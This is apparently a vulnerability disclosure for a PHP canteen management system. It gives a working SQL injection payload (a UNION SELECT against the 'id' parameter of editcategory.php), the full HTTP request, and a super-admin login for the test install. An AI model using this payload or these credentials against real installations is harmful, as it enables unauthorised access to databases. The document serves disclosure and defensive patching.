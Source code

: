 # Canteen Management System v1.0 by mayuri_k has SQL injection

BUG_Author: songyangqi

vendors: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability File: /youthappam/editcategory.php

Vulnerability location: /youthappam/editcategory.php, id

dbname =youthappam,length=10

[+] Payload: /youthappam/editcategory.php?id=-1%27%20union%20select%201,database(),3,4--+ // Leak place ---> id

```sql
GET /youthappam/editcategory.php?id=-1%27%20union%20select%201,database(),3,4--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lf9hph2449vgrcadcct2jgd8ne
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/195263036-7e88aa3b-bbf8-44a0-ad14-96dbcb672d45.png)
